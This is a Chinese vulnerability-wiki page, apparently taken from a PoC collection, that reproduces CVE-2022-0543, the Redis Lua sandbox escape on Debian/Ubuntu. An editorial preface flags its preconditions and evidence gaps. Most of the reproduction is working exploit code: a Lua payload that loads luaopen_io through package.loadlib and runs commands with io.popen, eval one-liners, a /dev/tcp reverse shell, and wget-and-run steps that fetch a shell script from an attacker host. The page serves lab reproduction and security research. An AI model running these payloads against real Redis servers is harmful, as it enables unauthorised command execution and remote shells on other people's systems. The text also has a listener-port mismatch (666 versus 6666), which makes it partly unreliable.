


# Redis Lua 沙盒绕过命令执行 CVE-2022-0543

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响Debian/Ubuntu软件包、可执行EVAL、package遗留可loadlib且正确系统Lua路径；有认证时需凭据/ACL权限
- 证据范围：明确发行版打包问题和动态库路径差异，有效区别上游Redis通用漏洞。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 只给测试Ubuntu Redis5.0.7，没有具体修复软件包版本/更新公告
- 最终监听666而载荷6666，端口不一致
- 直接bash重定向失败本质是io.popen默认shell语义差异，应解释而非仅尝试其他方法
- fiocal拼写；下载shell.sh落盘与长期读取阻塞未说明清理/可用性影响
- 应主归数据库/发行包漏洞，保留中间件交叉索引

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

参考链接：

- https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce
- https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787

## 环境搭建

Vulhub执行如下命令启动一个使用Ubuntu源安装的Redis 5.0.7服务器：

```shell
docker-compose up -d
```

服务启动后，我们可以使用`redis-cli -h your-ip`连接这个redis服务器。

## 漏洞复现

借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```



### 反弹shell

直接bash反弹shell失败，尝试其他方法。

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -i >& /dev/tcp/your-ip/6666 0>&1", "r"); local res = f:read("*a"); f:close(); return res' 0
```

攻击端编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/your-ip/6666 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

受控端执行以下两条命令即可反弹shell：

```
# 上传shell.sh文件
wget your-ip/shell.sh

# 执行shell.sh文件
bash shell.sh
```

结合当前漏洞，连接redis，使用`eval`命令执行脚本：

```
# 上传shell.sh文件
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("wget your-ip/shell.sh", "r"); local res = f:read("*a"); f:close(); return res' 0

# 执行shell.sh文件
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash shell.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
```

攻击端监听666端口，成功接收反弹shell：




---

> 来源：Threekiii/Awesome-POC
